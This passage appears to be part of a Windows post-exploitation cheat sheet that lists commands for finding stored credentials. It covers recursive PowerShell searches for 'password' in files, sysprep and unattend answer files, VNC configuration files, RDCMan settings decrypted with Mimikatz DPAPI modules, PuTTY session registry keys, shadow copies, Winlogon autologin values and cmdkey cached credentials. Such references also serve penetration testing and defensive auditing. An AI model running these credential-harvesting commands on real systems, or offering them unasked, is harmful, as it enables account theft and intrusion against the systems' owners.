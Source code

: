 ```PowerShell
```
Search for file containing word `password` (case-insensitive):
```PowerShell
Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password" -List | Select-Object Path
```
```PowerShell
Get-ChildItem -Path C:\ -Include *.txt,*.config -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password" -List | Select-Object Path
```

Some of the files below may be Base64 encoded:
```
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\unattend.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini
```
### Remote Desktop Credentials Manager
`%localappdata%\Microsoft\Remote Desktop Connection Manager\RDCMan.settings`
Use the Mimikatz dpapi::rdg module with appropriate /masterkey to decrypt any .rdg files. You can extract many DPAPI masterkeys from memory with the Mimikatz sekurlsa::dpapi module

# 4.1) Sessions
If PuTTY is present:
```
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
```

# 4.2) Shadow Copies
- Must be **Backup Operator** or **Domain Admin** to leverage
```PowerShell
vssadmin list shadows
```
# 5) Credentials
Windows autologin
```PowerShell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```

Cached creds:
```bat
cmdkey /list
```

